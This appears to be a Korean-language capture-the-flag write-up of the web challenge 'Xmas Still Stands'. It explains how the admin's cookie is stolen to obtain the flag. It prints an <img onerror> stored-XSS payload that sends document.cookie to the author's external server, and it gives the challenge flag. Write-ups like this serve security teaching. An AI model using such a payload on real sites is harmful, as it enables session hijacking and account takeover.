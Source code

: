 # Xmas Still Stands
**Web, 50pts**
> You remember when I said I dropped clam's tables? Well that was on Xmas day. And because I ruined his Xmas, he created the Anti Xmas Warriors to try to ruin everybody's Xmas. Despite his best efforts, Xmas Still Stands. But, he did manage to get a flag and put it on his site. Can you get it?

----------------------------------------

![Main](main.png)

문제 페이지에 접속하면 위와 같은 화면을 볼 수 있다.

![Admin](admin.png)

Admin 페이지를 보면 플래그를 획득하기 위해서 관리자의 쿠키 값을 탈취해야 한다는 것을 알 수 있다.

![Report](report.png)

Report 페이지에서 게시물 번호를 제출하면 관리자가 해당 게시물을 확인하기 때문에 쿠키 값을 획득할 수 있도록 Post 페이지에서 XSS 페이로드를 게시물로 작성하면 된다. 쿠키 값을 저장하기 위해서 개인 서버에 PHP 파일을 만들고 해당 파일로 접속하도록 하였다. 확인해보니 `<script>` 태그는 필터링 되기 때문에 `<img>` 태그를 사용하여 페이로드를 작성하였다.

```html
<img src="test" onerror="window.open('http://gcp.ego1.kr/test.php?input'+document.cookie)">
```

![Cookie](cookie.png)

서버에 저장된 파일을 보면 위와 같이 관리자의 쿠키를 확인할 수 있다. 획득한 쿠키 값을 브라우저에 저장하고 Admin 페이지에 접속하면 플래그를 획득할 수 있다.

![Flag](flag.png)

```
actf{s4n1tize_y0ur_html_4nd_y0ur_h4nds}
```